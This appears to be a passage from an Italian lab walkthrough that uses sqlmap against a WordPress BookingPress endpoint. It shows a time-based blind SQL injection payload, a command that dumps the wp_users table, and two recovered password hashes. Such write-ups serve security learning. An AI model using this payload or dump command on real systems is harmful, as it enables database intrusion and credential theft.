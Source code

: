 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:23:44 /2022-11-29/

[15:23:44] [INFO] parsing HTTP request from 'sql Inject.req'
it appears that provided value for POST parameter 'total_service' has boundaries. Do you want to inject inside? ('-7502*) ') [y/N] y
[15:23:49] [INFO] resuming back-end DBMS 'mysql' 
[15:23:49] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: total_service (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502)  AND (SELECT 4277 FROM (SELECT(SLEEP(5)))MMNH)-- UzsX
---
[15:23:51] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL 5 (MariaDB fork)
[15:23:51] [INFO] fetching tables for database: 'blog'
[15:23:51] [INFO] fetching number of tables for database 'blog'
[15:23:51] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                            
[15:23:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[15:23:56] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[15:23:56] [WARNING] unable to retrieve the number of tables for database 'blog'
[15:23:56] [INFO] fetching number of tables for database 'blog'
[15:23:56] [INFO] retrieved: 
[15:23:56] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] y
[15:24:02] [WARNING] it's not recommended to use 'time-based blind' and/or 'stacked queries' for common table existence check
are you sure you want to continue? [y/N] y
which common tables (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/data/txt/common-tables.txt' (press Enter)
[2] custom
> 
[15:24:09] [INFO] performing table existence using items from '/usr/share/sqlmap/data/txt/common-tables.txt'
[15:24:09] [INFO] adding words used on web page to the check list
[15:24:09] [INFO] checking database 'blog'
[15:24:45] [INFO] tried 257/3437 items (7%)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
Database: blog
+--------------------------------------------+
| wp_users                                                   |


4) Analizziamo la tabella wp_users:
sqlmap -r 'sql Inject.req'  -D blog -T wp_users --dump

5) Trovo due account:
```
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

